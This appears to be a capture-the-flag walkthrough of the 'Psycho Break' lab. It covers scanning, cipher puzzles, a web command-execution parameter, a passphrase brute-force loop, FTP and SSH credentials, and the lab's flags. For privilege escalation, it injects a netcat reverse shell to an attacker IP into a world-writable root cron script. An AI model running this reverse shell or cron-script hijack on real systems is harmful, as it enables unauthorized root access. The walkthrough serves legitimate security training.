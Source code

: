 > Psycho Break | Evil Within theme

export IP=10.10.185.119

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
21/tcp open  ftp     ProFTPD 1.3.5a
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

# Gobuster


We have a link in source code `/sadistRoom` and there we have a key `532219a04ab7a02b56faafbec1a4c1ea`. We have a text `Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv`. And after some time we figure out that it is atbash cipher and we have the key `Grant_me_access_to_the_map_please`.

And now we have access the map. Now we have another 2 links. And here we have a hint `I think I'm having a terrible nightmare. Search through me and find it`. AN d running gobuster we got a sub-directory `/keeper`. And we are navigated to `escapefromkeeper.php`. There we are prompted to reverse the image.

And reversing it we find `st augustine lighthouse` and we have the key `48ee41458eb0b43bf82b986cecf3af01`.Now looking at the source code we are told that in the page there is a shell. Looks like it a parameter. Let's access it `?shell=ls` and again `?shell=ls ..` and we find 2 hashes. The 1st hash is a directory and we found the txt file.

And unzipping the file we have 2 file. A jpg file is present but is zip file instead. Renaming it to .zip Then extarcting again we have another 2 files. The wav file consists of morse code => Decoding it we have a message `SHOWME`. Now inspecting the image file.

## steghide

We have `thankyou.txt`. 

# FTP Details 

```
USER : joseph
PASSWORD : intotheterror445
```

Looks like program is an ELF executable file. On executong it asks for a word. And there is list of words in random.dic. 

# Steps to find the Passphrase

```
sudo chmod +x program 
strings random.dic > brute.txt
while read LINE; do ./program "$LINE"; done < brute.txt | grep Correct
kidman => Correct
```

./program kidman

```
kidman => Correct

Well Done !!!
Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33
```

It's a phone-keypad message. `k i d m a n s p a s s w o r d i s s o s t r a n g e`

Looks like we have the SSH username and password. But the password is all Caps `KIDMANSPASSWORDISSOSTRANGE`. 


# user.txt

```
4C72A4EF8E6FED69C72B4D58431C4254
```

# Privilege Escalation

In the crintab we have `/var/.the_eye_of_ruvik.py`. OOh! Let's see the privileges.

```
-rwxr-xrw- 1 root root 300 Aug 14 22:43 /var/.the_eye_of_ruvik.py
```

And replacing a reverse shell in the file 
```
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)

subprocess.call("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.107.21 1234 >/tmp/f",shell=True)
```
 we are root!!

# root.txt

```
BA33BDF5B8A3BFC431322F7D13F3361E
```